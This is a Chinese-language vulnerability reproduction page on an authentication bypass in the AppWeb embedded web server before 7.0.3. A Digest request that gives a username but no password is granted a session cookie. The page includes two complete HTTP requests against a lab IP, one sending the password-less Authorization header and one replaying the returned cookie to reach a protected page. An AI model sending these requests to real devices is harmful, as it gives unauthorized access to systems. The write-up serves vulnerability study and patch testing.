



# AppWeb认证绕过漏洞

> 漏洞说明

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。


> 前提条件

需要知道环境中一个已经存在的用户名

版本：AppWeb < 7.0.3


> 利用工具


> 漏洞复现

访问http://192.168.40.77:8080/可以看到digest认证页



构造请求头

```http
GET http://192.168.40.77:8080/ HTTP/1.1
Host: 192.168.40.77:8080
Cache-Control: max-age=0
Authorization: Digest username="admin"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

可以看到响应状态码为200，并且包含一个cookie



利用cookie构造请求包

```http
GET http://192.168.40.77:8080/ HTTP/1.1
Host: 192.168.40.77:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: -http-session-=1::http.session::d7baccc2d348d7bf9455fd6a16c356f9
Connection: close


```

成功访问到需要认证的页面

